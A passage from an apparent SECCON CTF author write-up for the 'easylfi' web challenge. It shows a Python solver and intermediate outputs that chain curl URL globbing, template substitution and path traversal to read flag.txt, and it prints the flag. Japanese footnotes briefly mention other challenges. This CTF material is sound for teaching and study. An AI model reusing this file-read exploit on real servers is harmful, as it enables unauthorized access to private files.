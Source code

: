 `"{name}"` → `"{"`:
```
... snip ...
<body>
  <h1>Hello, {!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}
```

`"{"` → `"}{"`:
```
... snip ...
<body>
  <h1>Hello, }{!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON}{real_flag}
```

`"{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}"` → `""`:
```
... snip ...
<body>
  <h1>Hello, }{real_flag}
```

### Solver

```python
import os
import httpx

BASE_URL = f"http://easylfi.seccon.games:3000"

res = httpx.get(
    BASE_URL + "/{.}./{.}./{app/public/hello.html,flag.txt}",
    params={
        "{name}": "{",
        "{": "}{",
        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": "",
    },
)

print("SECCON" + res.text.split("<h1>Hello, }")[1])
```

### Flag

```
SECCON{i_lik3_fe4ture_of_copy_aS_cur1_in_br0wser}
```


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。